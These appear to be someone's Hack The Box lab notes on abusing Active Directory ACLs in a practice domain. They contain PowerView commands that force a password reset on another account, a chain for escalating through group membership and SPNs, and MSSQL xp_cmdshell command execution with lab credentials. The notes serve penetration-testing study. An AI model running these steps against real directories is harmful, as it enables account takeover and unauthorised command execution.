 ```powershell
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-5614
AccessMask            : 131124
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed

```

```powershell-session
PS C:\htb> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

# Abusing ACL
wley -> change pass -> damndsun 
damundsn -genericAll ->    (helpdsek 1)
Help Desk - (nested of information technology)
IT -> GENERICALL -> adun (admin)
damundsen(IT) -> change pass -> set SPN -> adunn

transporter@4 wley
#### Creating a PSCredential Object

ACL Abuse Tactics

```powershell-session
> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
```

create credential object for a user that controls another object(user, entity) in this case wley controls damunsen with ACL generic write
```
> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

set thje new pass for user damundsen
```
PS C:\Tools> $dampass = ConvertTo-SecureString '!@dampassxdddGetFuckingPOwned131' -AsPlainText -Force
```
change the pass
```
PS C:\Tools> Set-DomainUserPassword -Identity damundsen -AccountPassword $dampass -Credential $wleyCredOBj -Verbose
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

add damundsen to Help desk

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

os commands via powerupsql
```
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'EXEC xp_cmdshell ''powershell -c cat c:\Users\damundsen\Desktop\flag.txt
```

mssqlclient
```
.\mssqlclient.exe -windows-auth INLANEFREIGHT/DAMUNDSEN@172.16.5.150

enable_xp_cmdshell
xp_cmdshell whoami /priv

```
![](security/Screenshots/Pasted%20image%2020241212181423.png)